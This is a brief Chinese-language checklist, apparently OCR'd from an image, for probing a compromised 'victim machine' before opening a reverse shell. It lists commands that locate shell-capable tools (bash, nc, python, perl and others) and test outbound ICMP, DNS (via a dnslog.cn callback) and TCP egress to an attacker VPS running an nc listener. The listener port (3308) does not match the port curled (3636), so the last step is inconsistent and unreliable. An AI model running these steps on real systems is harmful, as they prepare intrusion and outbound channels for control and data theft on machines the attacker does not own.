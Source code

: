 1、判断目标存在哪些反弹shell的命令


   受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++

2、判断目标机器能否通icmp流量

   1) ping -c 1 22.xxx.xxx.x >icmp.txt
   
   2) ls -alh
   
   3) cat icmp.txt
3、判断目标机器DNS能否出网

 法一：
  
   1）受害机上执行：ping -c 1 www.baidu.com>dns.txt
   
   2）受害机上执行：ls -alh
   
   3）受害机上执行：cat dns.txt

法二：

   1）反连平台dnslog.cn上生成一个子域名
   
   2）受害机上执行：ping xxx.dnslog.cn

   3）查看反连平台

4、判断目标机器向外开了哪些端口

   1) VPS:nc-v -n -lp 3308
   2) 目标机器：curl http://xx.xx.xx.xx:3636

   
